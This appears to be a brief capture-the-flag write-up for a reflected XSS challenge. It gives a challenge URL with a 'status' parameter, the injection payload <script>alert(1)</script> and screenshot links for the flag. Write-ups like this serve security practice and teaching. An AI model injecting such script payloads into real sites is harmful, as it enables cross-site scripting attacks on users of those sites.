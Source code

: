 # ~ Chall 1 | URL 🕵️
![لقطة الشاشة 2022-07-06 040218](https://user-images.githubusercontent.com/108769252/177443255-51abff9a-be00-4a41-b0d2-af04eac58fde.png)
https://rayan-1.000webhostapp.com/chall/1.php?status=Rick (XSS)
?status=<script>alert(1)</script>
# FLAG 🤝
![2022-07-06 041647](https://user-images.githubusercontent.com/108769252/177444457-8e54ebd8-5783-4957-bbb7-8cbf62962354.png)
